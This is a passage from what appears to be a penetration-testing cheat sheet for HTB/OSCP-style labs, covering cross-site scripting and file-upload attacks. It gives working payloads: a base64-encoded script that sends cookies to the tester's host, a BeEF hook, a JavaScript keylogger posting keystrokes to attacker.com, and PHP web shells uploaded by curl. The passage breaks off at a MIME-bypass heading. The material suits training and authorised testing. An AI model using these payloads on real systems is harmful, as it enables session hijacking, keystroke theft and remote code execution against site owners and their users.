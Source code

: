 ```bash
# Allows session hijacking

# DOM-based XSS testing
curl "http://target.com/page.php#<script>alert('XSS')</script>"
# Fragment-based XSS
# Executed by client-side JavaScript

# XSS in HTTP headers
curl -H "User-Agent: <script>alert('XSS')</script>" http://target.com/
curl -H "Referer: <script>alert('XSS')</script>" http://target.com/
# Header-based XSS
# Displayed in logs or admin panels
```

### **XSS Payload Generation and Customization**

```bash
# Generate custom XSS payloads for specific scenarios
echo "document.location='http://$(hostname -I | awk '{print $1}'):8080/steal.php?cookie='+document.cookie" | base64
# Base64 encoded cookie stealing payload
# Evades basic detection

# BeEF integration payload
echo "<script src='http://$(hostname -I | awk '{print $1}'):3000/hook.js'></script>"
# Browser Exploitation Framework integration
# Provides persistent browser control

# Keylogger XSS payload
cat > keylogger.js << 'EOF'
document.addEventListener('keydown', function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/log.php', true);
    xhr.send('key=' + e.key);
});
EOF
# JavaScript keylogger
# Captures user keystrokes
```

## File Upload Vulnerabilities

### **File Upload Testing Methodology**

**What file upload vulnerabilities are:** Flaws in file upload functionality that allow uploading malicious files, leading to code execution, directory traversal, or denial of service.

**Why file uploads are critical:** Direct path to remote code execution. Common in HTB/OSCP scenarios for initial compromise.

```bash
# Basic file upload testing
# Create test files with different extensions
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
echo "<?php system(\$_GET['cmd']); ?>" > shell.php5
echo "<?php system(\$_GET['cmd']); ?>" > shell.phtml
echo "<?php system(\$_GET['cmd']); ?>" > shell.inc

# Test various file extensions
curl -X POST -F "file=@shell.php" http://target.com/upload.php
curl -X POST -F "file=@shell.php5" http://target.com/upload.php
curl -X POST -F "file=@shell.phtml" http://target.com/upload.php

# MIME type bypass testing
```